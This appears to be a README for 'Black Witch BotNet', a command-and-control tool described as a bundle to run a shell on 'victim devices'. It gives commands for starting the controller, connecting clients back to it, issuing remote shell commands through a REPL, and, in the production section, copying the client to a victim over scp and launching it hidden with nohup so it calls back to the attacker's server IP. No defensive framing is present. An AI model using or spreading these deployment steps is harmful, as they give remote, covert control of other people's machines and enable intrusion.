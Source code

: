 <img width="150px" src="https://blackwitchcoven.com/wp-content/uploads/2017/01/ccedb1918e81e3fcaad18aca53f8da7e.jpeg">

# Black Witch BotNet
####The blank bundle to run the shell on your victim devices

We are welkome to open issue

## Usage
#### Generate server certificate and key
```
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout server.key -out server.crt
```
It's good enough to use self signed sertificate

#### Run the server (cmd/server)
```
server -addr-accept :7238 -sock-control unix.sock -cert server.crt -key server.key
```
The server will open TCP and UNIX socket. TCP on 7238 port for incoming client connactions and UNIX unix.sock for control client connections.


#### Run the client (cmd/client)
```
client -recon 1 -addr localhost:7238
```
This will run the client on the victim machine. For now you have to compile binary for os and arch victim.


To view all available options use -help on the server and client


## Control
To manage connected payloads you may use nc or something that can connect to the unix sock
```
nc -U tmp/unix.sock
```
```
socat - UNIX-CONNECT:unix.sock
```

You will see REPL console

To show all connections

```
<CC:#> show
```

This will return

```
ID: 0 Address: 213.32.33.33:42656
ID: 1 Address: 213.32.33.33:53622
```

Connect to connection
```
<CC:#> use 0
```

## Communicate with client payload
#### Syntax

```
event [hello|restart]
```

```
{shell} [{exec}|cd] command
```

Where {} is default and [] options

#### Event message

```
event hello
```

It's a system event connection health

```
event restart
```

Events return status

```
Status true
```

Restart the client (CURRENTLY NOT SUPPORTED)

#### Shell commands

Simple command is

```
<213.32.33.33:42656:#> pwd
```

And this will return stdout

```
/Users
```

To change the directory

```
<213.32.33.33:42656:#> cd /Users
```

Will return new directory path

```
/Users
```

So we have shell commands and event messages for the client

Client support hello and restart events

Shell support simple exec and change directory

#### Errors

When the executable isn't found

```
exec: "ll": executable file not found in $PATH
Error code 1
```

When you run executable incorrect

```
pwd: illegal option -- -
usage: pwd [-L | -P]
Exit 1
```

Return stderr and exit code

When you change dir that isn't exist

```
chdir test: no such file or directory
Error code 2
```

The last thing is command timeouts

We have 10 seconds timeout to run the command or error will return

```
run command timeout
Error code 0
```

Error codes

```
ErrorTimeout          = 0
ErrorCommand          = 1
ErrorChangeDir        = 2
ErrorUnknownRequest   = 3
ErrorUnknownShellType = 4
ErrorUnknownEventType = 5
```

## Production
#### Config server

Create directory

```
mkdir /opt/black
```

Upload or generate server key and crt to this dir

Then upload binary

Create systemd file and copy content from [example](https://github.com/andrewostroumov/black-witch-botnet/blob/master/systemd.service):

```
touch /etc/systemd/system/black-witch.service
```

And run systemd service

```
sudo service black-witch start
```

#### Upload client

Build client for target machine os and arch

```
GOOS=linux GOARCH=amd64 go build
```

Upload client through scp

```
scp client 33.33.33.33:/var/lib/ && ssh 33.33.33.33 "nohup /var/lib/client -addr 44.44.44.44:7328 -recon 5 > /dev/null 2>&1 &"
```

Where 33.33.33.33 is a victim ip and 44.44.44.44 is a your accept server ip
